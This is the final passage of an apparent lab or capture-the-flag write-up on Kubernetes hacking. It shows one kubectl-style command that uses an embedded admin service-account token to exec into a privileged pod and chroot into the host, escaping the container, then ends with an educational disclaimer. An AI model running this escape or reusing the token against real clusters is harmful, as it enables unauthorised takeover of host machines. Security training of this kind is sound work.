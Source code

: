 ```bash
./kc --token eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow -n default exec -it everything-allowed-exec-pod -- chroot /host bash
```

![../../assets/images/unobtainium/Untitled_30.png](../../assets/images/unobtainium/Untitled_30.png)

---

This blog post is part of a series on practical approaches to cybersecurity. Stay tuned for more updates and insights into the fascinating world of ethical hacking and cybersecurity best practices.

In the following posts, we will delve deeper into the exploitation phase, demonstrating techniques such as privilege escalation, lateral movement, and persistence.

Stay safe, and happy hacking!

Note: This blog is for educational purposes only. Attempting unauthorised penetration testing is illegal and punishable by law. Always get explicit permission before performing any penetration testing.
